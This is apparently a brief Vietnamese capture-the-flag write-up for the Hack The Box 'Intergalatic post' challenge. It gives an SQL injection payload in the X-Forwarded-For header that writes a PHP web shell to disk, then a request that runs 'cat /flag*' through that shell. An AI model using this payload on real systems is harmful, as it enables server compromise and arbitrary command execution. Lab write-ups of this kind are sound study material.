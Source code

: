 # Intergalatic post

sqli ở `X-Forwarded-For` header

```
X-Forwarded-For: blabla', '1@gmail.com');ATTACH DATABASE '/www/static/exp.php' AS exp;CREATE TABLE exp.pwn (dataz text);INSERT INTO exp.pwn (dataz) VALUES ('<?=system($_GET[0]); ?>');--
```

Sau đó access tới `URL/static/exp.php?0=cat /flag*`

**HTB{inj3ct3d_th3_tru7h}**